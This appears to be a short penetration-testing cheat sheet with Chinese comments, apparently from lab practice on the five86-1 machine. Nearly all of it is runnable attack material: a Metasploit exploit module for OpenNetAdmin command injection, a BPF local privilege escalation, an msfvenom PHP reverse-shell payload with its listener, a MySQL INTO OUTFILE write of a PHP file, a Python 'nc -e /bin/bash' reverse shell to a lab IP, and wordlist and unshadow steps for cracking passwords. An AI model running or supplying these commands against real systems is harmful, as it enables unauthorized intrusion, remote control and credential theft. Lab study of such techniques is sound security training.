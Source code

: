 ```
(five86-1)
#需要将之前的rb文件拷贝到msf相应的exploit文件夹下/usr/share/metasploit-framework/modules/exploits/

cp exploits/php/webapps/47772.rb /usr/share/metasploit-
framework/modules/exploits/OpenNetAdmin_1811_CommandInjectionExploit.r
b
```



```
meterpreter > background 
[*] Backgrounding session 1...


msf5 > use exploit/linux/local/bpf_sign_extension_priv_esc 
msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > set session 1
```

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=1234 R > shell.php
```

```
use exploit/multi/handler 加载监听模块
set payload java/jsp_shell_reverse_tcp 加载载荷
set lhost 192.168.1.128
set lport 3333
exploit
```

#### mysql提权

```
select '<?php phpinfo();?>' into outfile "/var/tmp/shell.php";
```

```
#根据网页内容制作字典
cewl http://192.168.1.131/ -w dict.txt
```

#### python反弹shell

```
import sys
import os
os.system("nc -e /bin/bash 192.168.111.60 1334")
```

#### unshadow

```
#合并字典
unshadow pass.txt shadow.txt > hash.txt
```

#### tcpdump
